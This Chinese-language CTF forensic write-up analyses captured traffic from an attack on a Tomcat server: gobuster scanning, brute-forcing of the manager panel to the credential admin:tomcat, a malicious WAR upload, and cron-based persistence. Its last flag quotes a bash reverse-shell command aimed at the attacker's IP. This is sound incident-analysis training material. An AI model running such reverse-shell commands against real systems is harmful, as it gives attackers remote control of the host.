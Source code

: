 # 第六章-流量特征分析-常见攻击事件Tomcat

  
  
&lt;!--more--&gt;  
## 0x00 环境分析  
```  
1、在web服务器上发现的可疑活动,流量分析会显示很多请求,这表明存在恶意的扫描行为,通过分析扫描的行为后提交攻击者IP  flag格式：flag{ip}，如：flag{127.0.0.1}  
2、找到攻击者IP后请通过技术手段确定其所在地址 flag格式: flag{城市英文小写}  
3、哪一个端口提供对web服务器管理面板的访问？ flag格式：flag{2222}  
4、经过前面对攻击者行为的分析后,攻击者运用的工具是？ flag格式：flag{名称}  
5、攻击者拿到特定目录的线索后,想要通过暴力破解的方式登录,请通过分析流量找到攻击者登录成功的用户名和密码？ flag格式：flag{root-123}  
6、攻击者登录成功后,先要建立反弹shell,请分析流量提交恶意文件的名称？ flag格式：flag{114514.txt}  
7、攻击者想要维持提权成功后的登录,请分析流量后提交关键的信息？ flag提示,某种任务里的信息  
```  
## 0x01  
1、在web服务器上发现的可疑活动,流量分析会显示很多请求,这表明存在恶意的扫描行为,**通过分析扫描的行为后提交攻击者IP**  
过滤一下`http`请求，在按照`Source`排序`http.request==1`  
可以看到`14.0.0.120`这个ip请求次数很多，而且很多都是可疑请求，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406041916714.png)
`flag{14.0.0.120}`  
2、找到攻击者IP后请通过技术手段确定其所在地址  
`ip138`查询`ip`地址  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406041918206.png)
`flag{guangzhou}`  
3、哪一个端口提供对web服务器管理面板的访问？  
可以看到黑客一直在爆破`8080`端口  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406041920164.png)
所以`8080`端口便是`tomcat`的管理面板  
4、经过前面对攻击者行为的分析后,攻击者运用的工具是？  
随便点了几个黑客扫描的请求，发现其`User-Agent`中存在请求头  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406041922432.png)
`flag{gobuster}`  
5、攻击者拿到特定目录的线索后,想要通过暴力破解的方式登录,请通过分析流量找到攻击者登录成功的用户名和密码？  
黑客在爆破`tomcat`的管理面板，这里过滤请求  
`http.request.uri==&#34;/manager/html&#34; || http.response == 1`  
再按照时间排序  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406041923193.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406041924278.png)
`YWRtaW46dG9tY2F0`解密得到`admin:tomcat`  
`flag{admin-tomcat}`  
6、攻击者登录成功后,先要建立反弹shell,请分析流量提交恶意文件的名称？  
看到了请求`/upload`目录  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406041927247.png)
发送了一个`JXQOZY.war`文件  
`flag{JXQOZY.war}`  
8、攻击者想要维持提权成功后的登录,请分析流量后提交关键的信息？  
题目描述是维权，所以搜索一下关键信息`/bin`  
`tcp contains &#34;/bin&#34;`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406041955338.png)
可以看到是定时任务进行了权限维持  
`flag{/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'}`  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/%E7%AC%AC%E5%85%AD%E7%AB%A0-%E6%B5%81%E9%87%8F%E7%89%B9%E5%BE%81%E5%88%86%E6%9E%90-%E5%B8%B8%E8%A7%81%E6%94%BB%E5%87%BB%E4%BA%8B%E4%BB%B6-tomcat/  

